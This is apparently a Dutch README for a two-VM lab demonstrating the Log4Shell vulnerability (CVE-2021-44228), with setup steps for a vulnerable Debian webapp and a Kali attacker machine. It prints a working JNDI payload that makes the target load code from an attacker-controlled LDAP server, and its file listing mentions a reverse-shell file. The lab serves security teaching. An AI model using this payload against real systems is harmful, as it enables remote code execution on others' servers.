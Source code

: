 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Debian/Ubuntu
- Java JDK

### Stappen:
```bash
sudo apt update && sudo apt install -y default-jdk wget
sudo apt install git
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
chmod +x setup_target.sh
./setup_target.sh
```

Bezoek de webapp op: [http://<target-ip>:8080](http://<target-ip>:8080)

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Kali Linux
- Java JDK
- Python3

### Stappen:
```bash
sudo apt update && sudo apt install -y default-jdk python3 wget
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```

De exploit zal nu uitgevoerd zijn.
Exploit = touch /tmp/HACKED.txt

---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java + reverse-shell.txt
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
